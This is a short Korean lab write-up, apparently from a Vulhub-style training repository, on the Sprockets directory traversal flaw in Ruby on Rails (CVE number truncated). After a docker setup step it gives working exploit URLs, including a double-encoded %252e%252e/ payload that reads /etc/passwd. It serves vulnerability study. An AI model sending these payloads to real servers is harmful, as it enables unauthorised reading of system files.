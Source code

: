 Ruby on rails 디렉토러 접근 취약점 (CVE-2018-)

Ruby On Rails는 개발 환경에서 정적 파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임워크로 널리 알려져 있으며,
정적 리소스 파일을 컴파일하여 배포하는 루비 라이브러리인 Sprockets는 정적 리소스 파일을 컴파일하고 배포하는 루비 라이브러리다.

Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 디렉토리 접근 취약성이 있다. 공격자는 %252e%252e/를 사용하여 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있다.

참고 링크 : 
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

환성 설정
다음과 같은 명령어를 입력 : 'docker compose up -d'

실행
/etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하여 오류를 발생시킨다.
![1](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/7ecc364c-20a7-445c-820b-27cf7e788e78)
오류 페이지별로 허용된 디렉토리 목록을 가져올 수 있다. /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 열람한다.
'http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd'
